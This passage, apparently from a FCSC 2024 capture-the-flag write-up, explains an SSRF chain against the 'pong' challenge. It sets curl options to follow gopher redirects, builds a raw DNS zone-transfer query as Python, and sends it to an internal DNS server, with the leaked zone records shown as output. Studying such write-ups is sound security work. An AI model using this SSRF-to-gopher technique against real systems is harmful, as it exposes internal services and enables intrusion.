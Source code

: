 
We get our 302 response with a redirect to ``gopher://pong-internal-dns:53/_example``.  

In order to make the link with the previous section on CUrl, here are the must-have options for ssrf:

- ``CURLOPT_FOLLOWLOCATION`` to ``1`` : Follow the redirection.
- ``CURLOPT_REDIR_PROTOCOLS`` to ``gopher`` or ``CURLPROTO_GOPHER`` : Enables the **gopher** redirection protocol *(Default: HTTP)*.

If we test the combination of: 
- From the url to *pong-redirect.fcsc2024.fr*
- DNS query in raw bytes
- CUrl options  
we get: 

```python
mapping = {
	'CURLOPT_FOLLOWLOCATION': '52',
	'CURLOPT_CUSTOMREQUEST': '10036',
	'CURLOPT_REDIR_PROTOCOLS': '182',
	'CURLPROTO_GOPHER': '33554432',
}

options = '&'.join([
	'',
	'options[CURLOPT_FOLLOWLOCATION]=1',
	'options[CURLOPT_REDIR_PROTOCOLS]=CURLPROTO_GOPHER',
])

for k, v in mapping.items():
	options = options.replace(k, v)

axfr = "%004n%DB%00%20%00%01%00%00%00%00%00%01%08fcsc2024%02fr%00%00%FC%00%01%00%00%29%04%D0%00%00%00%00%00%0C%00%0A%00%08I%B8%29%3C05P%8A"


target_url = urlenc(f'gopher://pong-internal-dns:53/_{axfr}')

ssrf(
    where=urlenc(urlenc(f'red.fcsc2024.fr:4444/?redirect={target_url}') + redos),
    options=urlenc(options)
)
```

*Output:*
```bash
HTTP/1.1 200 OK
Date: Fri, 12 Apr 2024 04:00:45 GMT
Server: Apache/2.4.59 (Unix)
X-Powered-By: PHP/8.2.17
Content-Length: 148
Connection: close
Content-Type: text/html; charset=UTF-8

\x00\x92n\xdb\x84\xa0\x00\x01\x00\x05\x00\x00\x00\x00\x08fcsc2024\x02fr\x00\x00\xfc\x00\x01\x08frontend\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x02\x04pong\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x04\x03red\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x06\x06listen\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x07\x0bfake_domain\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x05
```


[//]: <> (Wrote By Vozec 12/04/2024)